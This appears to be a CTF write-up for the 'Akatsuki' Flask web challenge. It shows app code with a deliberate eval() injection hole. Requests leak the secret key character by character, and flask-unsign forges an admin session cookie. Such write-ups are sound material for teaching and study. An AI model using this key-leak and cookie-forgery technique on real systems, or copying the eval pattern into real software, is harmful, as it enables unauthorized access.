





# Akatsuki

## Description

> feel pain, accept pain , know pain attachements
> 
> https://challenges.ctf.alphabit.club:1408 

## Write-Up

When we enter the challenge, we see that it displays description of well known Characters in NAruto.

In the storage part, we find an interesting cookie session :



```
session: eyJ1c2VyIjoiZ3Vlc3QifQ.ZALvtw.w_CnIotUlqGlfQqGSyVJFI-HZAI
```

And from the given code :

```py
from flask import Flask,render_template,request,session,render_template_string,abort
import os
application= Flask(__name__)
SECRETKEY=os.getenv("SECRET_KEY")
application.config["SECRET_KEY"]=SECRETKEY
application.config['DEBUG']=True
application.config['ENV'] = 'development'

memberlist=[
...
]


@application.route('/',methods=["GET","POST"])
def index():
    try:
        member=request.form.get("member")
        array = request.form.get("array")
        session["user"]="guest"
        if request.method == "GET":
            return render_template('index.html',member_infos=eval("memberlist[0]"))
        elif request.method == "POST":
            if member.isdigit() and array.isalpha():
                member_infos=eval("%s[%s]" % (array,member))
                return render_template('index.html',member_infos=member_infos)
            else:
                abort(400)
    except:
        abort(400)


@application.route('/admin',methods=["GET"])
def admin():
    if session.get('user') == "admin":
        return render_template_string(open("flag.txt").read())
    else:
        abort(403)


if __name__ == "__main__":  
    application.run(host='0.0.0.0', port='8080',debug=True)
```

We find that it is a `flask` session, let's try to decode it :

```
└─$ flask-unsign --decode --cookie 'eyJ1c2VyIjoiZ3Vlc3QifQ.ZALvtw.w_CnIotUlqGlfQqGSyVJFI-HZAI'
```

We get :


```
{'user': 'guest'}
```

Unfortunatly, cracking it this leads to nothing :

```
└─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJ1c2VyIjoiZ3Vlc3QifQ.ZALvtw.w_CnIot
[*] Session decodes to: {'user': 'guest'}
[*] Starting brute-forcer with 8 threads..
[!] Failed to find secret key after 14344392 attempts.nd
```

After checking the code :

```py
member_infos=eval("%s[%s]" % (array,member))
```

We can see that using `eval` function, we can extract the `SECRETKEY` like the follwing :

```

In [1]: SECRETKEY = "hello"

In [3]: SECRETKEY[0]
Out[3]: 'h'

In [3]: 

```

Performing first request gives us :



```
POST / HTTP/1.1
Host: challenges.ctf.alphabit.club:1408
Cookie: session=eyJ1c2VyIjoiZ3Vlc3QifQ.ZAL0KA.WeF1rWF0N97xTXskG3fG6kZY_7c
Content-Length: 25
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://challenges.ctf.alphabit.club:1408
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://challenges.ctf.alphabit.club:1408/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

member=0&array=SECRETKEY
```



```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 04 Mar 2023 07:48:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Set-Cookie: session=eyJ1c2VyIjoiZ3Vlc3QifQ.ZAL3yQ.6qRwSRZ0hq9yQd3hfBJDJ5ZaogU; HttpOnly; Path=/
Content-Length: 1888

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="/static/css/style.css">
    <link rel="icon" href="/static/img/favicon.ico">
    <title>Akatsuki</title>
</head>
<body> 
<main id="main">    
    <h1 id="title">Akatsuki</h1>
    <div id="img-div">
    
    
    
    <h3 id="img-caption">Akatsuki was a group of shinobi that existed outside the usual system of hidden villages.</h3>
    
    <p id="tribute-info">Over the course of several decades, Akatsuki took different forms and was led by different individuals.</p>
    <p>Though each iteration is viewed as either subversives or criminals, all seek to make the world a better place through their own means.</p>
    <p>Each Akatsuki tended to have multiple lairs across the world, inaccessible either due to their remoteness or the various security measures that protected them.</p>
    
    
      <b>Akatsuki members:</b>
      <form method="POST" action="/">
        <select name="member">
            <option value="0">pain</option>
            <option value="1">Obito</option>
            <option value="2">Itachi</option>
            <option value="3">Kisame</option>
            <option value="4">Deidara</option>
            <option value="5">Sasori</option>
            <option value="6">Kakuzu</option>
            <option value="7">Konan</option>
            <option value="8">Hidan</option>
            <option value="9">Black Zetsu</option>
            <option value="10">White Zetsu</option>
        </select>
        <input type="submit" name="array" value="memberlist"/>
      </form> 
      <div class="infoMember">
        <p>s</p>
      </div>
  </div>
  
</main>

</body>
</html>
```

From there, using `intruder` functionnality in **Burp Suite**, we can iterate through requests :



One by one (57 chars), we get :

```
T1M3_h34ls_n0th1ng_1t_just_t34chs_us_h0w_t0_liv3_w1th_p4in
```

We forge a new cookie with this key :

```
└─$ flask-unsign --sign --cookie "{'user': 'admin'}" --secret 'T1M3_h34ls_n0th1ng_1t_just_t34chs_us_h0w_t0_liv3_w1th_p4in' --legacy
eyJ1c2VyIjoiYWRtaW4ifQ.ZAL1UA.Jszis_E_NSij8kZM0mZYD2NZoog
```

Then, we send a `GET` request to `/admin` :




## Flag

AlphaCTF{4k4tsuk1_members_ar3_not__v1ll41ns_th3y_r_just_Br0k3n_H3r03s}